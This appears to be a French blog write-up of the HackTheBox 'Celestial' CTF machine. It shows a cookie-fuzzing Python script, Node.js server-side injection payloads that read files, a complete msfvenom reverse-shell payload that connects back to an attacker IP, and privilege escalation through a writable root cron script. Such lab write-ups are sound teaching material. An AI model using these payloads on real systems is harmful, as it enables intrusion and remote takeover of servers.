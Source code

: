 ```yaml
---
title: "Solution du CTF Celestial de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Back to the root(s)
-------------------

En attendant la venue d'un nouveau CTF basé sur Windows sur [HackTheBox](https://www.hackthebox.eu/), je me suis penché sur différentes machines sous Linux.  

*Celestial* était l'une de celles-ci.  

2 + 2 = 22
----------

J'ai commencé par le classique scan de ports Nmap, ici un peu plus poussé via l'utilisation de plus de scripts :  

```
nmap -T5 --script safe -sC -sV -p- -A -oA scan 10.10.10.85
```

La seule chose à retenir c'est la présence du port 3000 ouvert ainsi que de nombreux ports non filtrés, ce qui peut être utile pour la suite :  

```
Not shown: 63272 closed ports, 2262 filtered ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-comments-displayer: Couldn't find any comments.
|_http-date: Wed, 22 Aug 2018 09:49:39 GMT; -4s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers:
|   X-Powered-By: Express
|   Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Wed, 22 Aug 2018 10:04:44 GMT; HttpOnly
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 12
|   ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
|   Date: Wed, 22 Aug 2018 09:49:44 GMT
|   Connection: close
```

On voit clairement la mention de *Nodejs*. Au vu du numéro de port peu banal pour un service web j'ai d'abord pensé qu'il s'agissait d'un service de débogage à distance, j'ai donc lancé le module *Metasploit* *multi/misc/nodejs\_v8\_debugger* mais ceci n'a mené nul part, la réponse n'était clairement pas celle attendue par *Metasploit* je faisais fausse route.  

Je pointe donc mon browser sur ce port 3000 et j'obtiens une erreur HTTP. Un reload de la page plus tard et on a le message *Hey Dummy 2 + 2 is 22*.  

Il n'y a que [Javascript pour sortir cela bien sûr](https://gfycat.com/fr/gifs/detail/offensivefarflungbluefish) (oh no! It's retarded!) et c'est indice suffisant pour ce qui va venir.  

Si le message vient après un reload c'est parce qu'un cookie a été défini par le site. On le voit d'ailleurs dans le scan Nmap et il peut se décoder via base64 ce qui nous donne un dictionnaire JSON :  

```python
{
  "username":"Dummy",
  "country":"Idk Probably Somewhere Dumb",
  "city":"Lametown",
  "num":"2"
}
```

Attaquer les valeurs du dictionnaire n'est pas vraiment compliqué pour qui maîtrise bien Python (ou un autre vrai langage de programmation héhéhé).  

On part du même dictionnaire que l'on modifie dans une boucle que l'on sérialise en JSON pour ensuite encoder en base64 la chaîne obtenue transmise alors dans le cookie.  

Ma remière tentative a consisté à bruteforcer le champ *username* sans succès.  

Comme on est en face de Javascript il s'agit probablement d'une faille d'injection de code, auquel cas l'injection est à faire dans le champ *num*

Pour attaquer sans trop de difficultés ce champ j'ai écrit le script suivant, il suffit alors de lui passer un fichier avec les payloads :  

```python
import sys
import json
from urllib.parse import quote
from base64 import b64encode

import requests
from requests.exceptions import RequestException

data = {"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
KEY = "num"
sess = requests.session()

wordlist = sys.argv[1]
with open(wordlist) as fd:
    for line in fd:
        word = line.strip()
        data["num"] = word

        try:
            raw = json.dumps(data).encode()
        except UnicodeEncodeError:
            continue
        else:
            raw = quote(b64encode(raw))
            try:
                response = sess.get(
                    "http://10.10.10.85:3000/",
                    headers={"cookie": "profile={}".format(raw)}
                )
            except RequestException:
                continue
            else:
                print(response.status_code, word)
                print(response.content)
```

Pour les payloads intéressants on peut se baser [sur cette page](https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html) et commencer ainsi par l'injection suivante :  

```javascript
;res.end(require('fs').readdirSync('.').toString())
```

Ce qui nous retourne le contenu suivant :  

```
.ICEauthority
.Xauthority
.bash_history
.bash_logout
.bashrc
.cache
.config
.dbus
.dmrc
.gconf
.gnupg
.gvfs
.lesshst
.local
.mozilla
.nano
.node_repl_history
.npm
.profile
.selected_editor
.sudo_as_admin_successful
.xsession-errors
.xsession-errors.old
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
examples.desktop
node_modules
output.txt
server.js
```

On peut alors continuer en dumpant le contenu du premier flag avec le payload *;res.end(require('fs').readFileSync('Documents/user.txt'))* :  

```
9a093cd22ce86b7f41db4116e80d0b0f
```

Title is undefined
------------------

Lister les dossiers, lire des fichiers, c'est déjà pas mal mais on veut un vrai shell alors on dégaine *msfvenom* (aka *Il y a un payload pour ça*).  

```
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 --arch nodejs --platform nodejs -f raw
No encoder or badchars specified, outputting raw payload
Payload size: 797 bytes
 (function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(443, "10.10.14.9", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); })();
```

On injecte ce payload et notre reverse shell minimaliste arrive :)   

On dispose d'un accès avec le compte *sun* :  

```
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

Il y a deux fichiers intéressants dans le home de l'utilisateur :  

```
sun@sun:~$ cat Documents/script.py
print "Script is running..."

sun@sun:~$ ls -l output.txt
-rw-r--r-- 1 root root 63 Aug 22 09:05 output.txt

sun@sun:~$ cat output.txt
Script is running...
Script is running...
Script is running...
```

Il semble que le script soit exécuté par root à intervalle régulier ce qui expliquerait les permissions sur *output.txt*.  

On ne voit rien dans */etc/crontab* qui correspond et on n'a pas le mot de passe de *sun* pour afficher ses permissions sudo... Mais on peut écrire dans *script.py*. Alors [je tente ma chance](https://www.youtube.com/watch?v=1t-Bxw2lbdw) ?  

Je rajoute [une ligne de reverse shell python](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) au fichier et *sure enough* on finit par obtenir notre accès et le flag qui va avec (*ba1d0019200a54e370ca151007a8095a*).  

It is not my code fault, it's Javascript
----------------------------------------

That was fast... Pour être sûr que j'avais suivi le chemin attendu j'ai retrouvé la ligne suivante dans le *crontab* de root :  

```
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```


*Published August 25 2018 at 18:19*
